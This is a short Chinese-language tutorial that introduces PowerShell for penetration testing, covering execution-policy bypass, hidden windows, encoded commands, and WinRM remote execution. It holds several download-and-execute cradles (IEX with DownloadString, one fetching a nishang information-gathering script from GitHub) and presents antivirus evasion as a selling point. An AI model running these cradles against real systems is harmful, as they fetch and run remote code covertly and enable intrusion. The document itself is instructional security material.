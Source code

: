## 目录
- 什么是powershell
- 基本参数
- 基本命令

### 1. 什么是powershell
功能相当于UNIX系统的命令行壳程序（例如：sh、bash或csh），同时也内置脚本语言以及辅助脚本程序的工具。

powershell的优点在于：
- win7以上默认安装
- powershell脚本可以运行在内存
- 免杀效果好
- 可以使用Windows API＆.Net代码

powershell框架：
- nishang 
- empire
- powerup
- powersploit
- ......

### 2. 基本参数
- -Exec Bypass

powershell的安全策略有五级：Restricted、AllSigned（所有的签名 ）、RemoteSigned（远程签名） 、Unrestricted、Bypass。
默认安全策略不允许运行ps1文件（powershell脚本文件），当你启动一个ps1脚本文件，会通过记事本打开。
因此这个参数就是用来绕过安全策略直接执行powershell脚本。

![image](./pic/bypass.png)
- -NonI

非交互模式
- -NoProfile（或者-NoP）

powershell控制台不加载当前用户的配置文件
- -noexit

执行后不退出powershell
- -W Hidden

将命令窗口保持隐藏
- -enc [Base64 Code]

执行经过编码的代码，Base64 Code为base64编码后的Powershell脚本
- -File 

从指定文件中运行命令
- (New-Object Net.WebClient).DownloadString()
- (New-Object System.Net.Webclient).DownloadFile()

System.Net Webclient类是用来向远程发送数据，或者接收数据。

DownloadFile 方法，它可以从远程下载一个文件到存到本地。

Download-String方法可以将远程的内容下载到内存中的缓冲区。
- IEX
 
即Invoke-Expression，允许用户计算和运行动态生成的命令。此方法通常用于直接下载到内存的脚本。
- -command

执行命令
### 3. 基本命令
- 直接通过command执行powershell自带命令
```
powershell.exe -command Get-HotFix  #检查系统补丁
powershell.exe -command Get-Process  #获取进程列表
```
- 远程下载powershell脚本，并且装入内存执行。
```
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-ObjectNet.WebClient).DownloadString('[Powershell URL]');[Parameters]
```
- 远程下载脚本到本地文件，然后运行文件
```
Powershell.exe (New-Object System.Net.WebClient).DownloadFile($URL,$LocalFileLocation);Start-Process $LocalFileLocation 
```
比如下面这个例子，加载远程的powershell脚本，nishang框架的getInformation到内存执行来获取系统信息
```
Powershell.exe -Exec Bypass IEX"(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-Information.ps1');Get-Information"
```
- powershell进行远程交互

首先需要在要进行远程连接的主机上面设置WinRM（Windows Remote Mangement）为允许远程连接：

![image](./pic/winrm_quickconfig.png)

然后在本机添加信任列表：
```
Set-Item wsman:\localhost\Client\TrustedHosts -value 192.168.1.*
```

![image](./pic/TrustHosts.png)

然后就可以使用PSSession 命令进入远程 powershell 会话交互模式

```
Enter-PSSession –ComputerName 192.168.1.105 -Credential Administrator
```
![image](./pic/Enter-PSSession.png)

或者利用Invoke-Command在计算机上远程执行命令（或者脚本等等）：
```
Invoke-Command -ComputerName 192.168.1.105 –ScriptBlock {Start-Process -FilePath Ping.exe -ArgumentLis
t "192.168.1.103 -n 5"} –credential Administrator
```
执行之后可以抓到包：

![image](./pic/ping.png)


---
这里只是对powershell进行一个简单的入门介绍，后续需要学习powershell的各种框架，利用这些框架来进行渗透，再进阶要掌握powershell的语法以及各种代码混淆。








